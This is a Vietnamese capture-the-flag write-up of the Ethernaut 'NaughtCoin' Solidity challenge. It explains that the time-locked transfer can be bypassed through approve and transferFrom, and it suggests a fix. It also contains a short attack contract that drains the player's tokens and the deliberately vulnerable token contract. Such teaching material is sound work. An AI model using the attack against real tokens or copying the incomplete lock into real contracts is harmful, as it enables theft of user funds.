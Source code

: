 ### Kết luận 
- Lỗ hổng: Hàm transfer bị khóa nhưng `player` vẫn có thể sử dụng hàm `approve` và `transferFrom` để chuyển tokens. (theo chuẩn ERC20).
- Cách phòng tránh: Modifier `lockTokens` cần được mở rộng để kiểm tra mọi hành động ảnh hưởng đến số dư của `player`, bao gồm cả `approve` và `transferFrom`.
- Hoặc có thể chặn trực tiếp trong hàm.
VD:
```solidity
function transferFrom(address sender, address recipient, uint256 amount) public override returns (bool) {
    if (sender == player) {
        require(block.timestamp > timeLock, "Tokens are locked.");
    }
    return super.transferFrom(sender, recipient, amount);
}

```
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
interface INaughtCoin is IERC20 {}
contract NaughtCoinAttack{
    INaughtCoin public victim;
    constructor (address challenge){
        victim = INaughtCoin(challenge);
    }
    function attack(address _player) public payable{
        require(victim.balanceOf(_player) > 0, "Player has no tokens to steal");
        victim.transferFrom(_player, address(this), victim.balanceOf(_player));
    }
    // Cần gọi hàm approve để cấp quyền trước khi tấn công ở hợp đồng NaughtCoin.
    // victim.approve(address(this), victim.balanceOf(msg.sender));
}
```
### Contract 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
